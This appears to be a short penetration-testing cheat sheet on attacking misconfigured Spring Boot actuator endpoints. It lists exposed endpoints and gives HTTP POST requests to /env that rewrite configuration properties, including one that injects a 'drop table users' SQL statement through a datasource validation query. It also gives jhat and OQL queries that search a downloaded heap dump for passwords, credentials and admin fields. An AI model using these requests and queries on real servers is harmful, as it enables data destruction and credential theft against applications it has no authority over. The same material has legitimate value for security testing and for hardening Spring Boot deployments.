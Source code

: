 


# Spring boot



Spring boot app can contain many vulnerabilities if the server is not well configured
This endpoints are vulnerable :

-   **/autoconfig**  - Displays an auto-configuration report showing all auto-configuration candidates and the reason why they 'were' or 'were not' applied.
-   **/beans**  - Displays a complete list of all the Spring beans in your application.
-   **/configprops**  - Displays a collated list of all @ConfigurationProperties.
-   **/dump**  - Performs a thread dump.
-   **/env**  - Exposes properties from Spring's ConfigurableEnvironment.
-   **/health**  - Shows application health information (a simple 'status' when accessed over an unauthenticated connection or full message details when authenticated).
-   **/info**  - Displays arbitrary application info.
-   **/metrics**  - Shows 'metrics' information for the current application.
-   **/mappings**  - Displays a collated list of all @RequestMapping paths.
-   **/shutdown**  - Allows the application to be gracefully shutdown (not enabled by default).
-   **/trace**  - Displays trace information (by default the last few HTTP requests)
-  **/heapdump** return .hprof file
-  **/actuators** 
- **/jolokia** 

## /env exploit

 - We can modify configprops properties via POST request

> POST /env HTTP/1.1
> properties=new_properties

 - Perform sql query
 
 > POST /env HTTP/1.1
> spring.datasource.tomcat.validationQuery=drop+table+users

## Analyze .hprof file

  

>  jhat -port 7401 -J-Xmx4G /tmp/file.hprof

Usefull OQL querys:
```SQL
select filter(map( map(filter(heap.classes(), function(it) { var interests = /login|password|username|database|creds|credential|p4ss|l0g1n|l0gin|us3r|admin|4dm1n/; for(field in it.fields) if(interests.test(it.fields[field].name.toLowerCase())) return  true; return  false; }), "heap.objects(it, true)"), function(it) { var res = ""; var interests = /login|password|username|database|creds|credential|p4ss|l0g1n|l0gin|us3r|admin|4dm1n/; while (it.hasMoreElements()) { it = it.nextElement(); for(field in it) { if(interests.test(field.toLowerCase())) { if(res !== '') res += ', '; res += field + ' : ' + (it[field] ? (it[field].value ? it[field].value.toString() : it[field].toString()) : it[field]); } } } return res; }), "it");
```

and

```SQL
select filter( map(filter(heap.classes(), "it.statics"), function(it) { var res = ''; var interests = /login|password|username|database|creds|credential|p4ss|l0g1n|l0gin|us3r|admin|4dm1n/; for (field in it.statics) { if(interests.test(field.toLowerCase())) { if(res !== '') res += ', '; res += field + ' : ' + it.statics[field].toString(); } } return res; } ), "it");
```
